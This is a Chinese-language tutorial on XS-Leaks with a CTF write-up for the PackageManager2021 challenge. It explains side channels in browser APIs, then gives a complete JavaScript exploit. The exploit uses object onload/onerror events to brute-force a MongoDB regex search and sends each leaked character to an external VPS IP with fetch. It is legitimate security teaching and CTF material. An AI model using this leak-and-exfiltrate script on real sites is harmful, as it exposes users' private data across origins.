

# **XSleaks**

## **什么是 XS-Leaks**

XS-Leaks 全称 Cross-site leaks，可以用来 **探测用户敏感信息**。利用方式、利用条件等都和 csrf 较为相似。

说到探测用户敏感信息，是如何进行探测的？和csrf 相似在哪？

设想网站存在一个模糊查找功能（若前缀匹配则返回对应结果）例如 `http://localhost/search?query=`，页面是存在 xss 漏洞，并且有一个类似 flag 的字符串，并且只有不同用户查询的结果集不同。这时你可能会尝试 csrf，但是由于网站正确配置了 CORS，导致无法通过 xss 结合 csrf 获取到具体的响应。这个时候就可以尝试 XS-Leaks。

虽然无法获取响应的内容，但是是否查找成功可以通过一些侧信道来判断。通过哪些侧信道判断呢？

这些侧信道的来源通常有以下几类：

1. 浏览器的 api (e.g. [Frame Counting](https://xsleaks.dev/docs/attacks/frame-counting/) and [Timing Attacks](https://xsleaks.dev/docs/attacks/timing-attacks/))
2. 浏览器的实现细节和bugs (e.g. [Connection Pooling](https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/) and [typeMustMatch](https://xsleaks.dev/docs/attacks/historical/content-type/#typemustmatch))
3. 硬件bugs (e.g. Speculative Execution Attacks [4](https://xsleaks.dev/#fn:4))

## 利用条件

具有模糊查找功能，可以构成二元结果（成功或失败），并且二元之间的差异性可以通过某种侧信道技术探测到。

可以和 csrf POST 型一样触发，需要诱使受害者触发执行 js 代码。所以特定功能数据包必须没有类似 csrf token 的保护等。


## 配合学习

强烈推荐祥云杯web_PackageManager2021，在BUUCTF上已有复现，典型的xsLeaks题目，关于xsleaks的部分wp


利用`packages/list/?search`的功能，发现虽然可以实现search的功能，但是并不能按照内容正则匹配搜出来



这里search参数可以是对象。而对于后端mongodb来说，我们是能利用`{$regex: 'xxx'}`这样的查询进行正则搜索的。故访问 `packages/list?search[description][$regex]=^f`就可以进行正则查询desscription了。这样就符合xsleak的思路了。

而具体leak的方法。我们使用`object`标签。它能在火狐环境下做到，如果`object.data`访问状态码200，就会触发onload事件。如果访问状态码404，就会触发onerror事件。我们根据这个差异性，就能利用search注出flag内容了。

后面是自己VPS搭建一个接收

```javascript
<html>
<script>
    const VPS_IP = 'http://120.27.246.202/'
    const chars = "0123456789abcdefghijklmnopqrstuvwxyz-{}";
    
    const escape = (c) => {
        return c.replace(/[.*+?^=!:${}()|[\]\/\\]/g, '\\$&');
    }
    
    const oracle = async (url) => {
        return new Promise((resolve, reject) => {
            const object = document.createElement("object");
            object.data = url;
            object.onload = resolve;
            object.onerror = reject;  
            document.head.appendChild(object);
        });
    }
    const search = async (url) => {
        try {
            await oracle(url)
            return true;
        } catch (e) {
            return false;
        }
    }

    (async () => {
        let flag = '';
        let url = `http://localhost:8000/packages/list?search[description][$regex]=^${flag}`
        while (flag.charAt(flag.length - 1) !== "}") {
            for ( let i of chars ) {
            if ( await(search(url + escape(i))) ) {
                url = url + escape(i)
                flag += i
                await fetch(`${VPS_IP}/?flag=${flag}`, {mode: 'no-cors'})
                break;
        }   else {
            console.log('failed');
            }
         }
        }
    })();
</script>

</html
```


可以看看最后的效果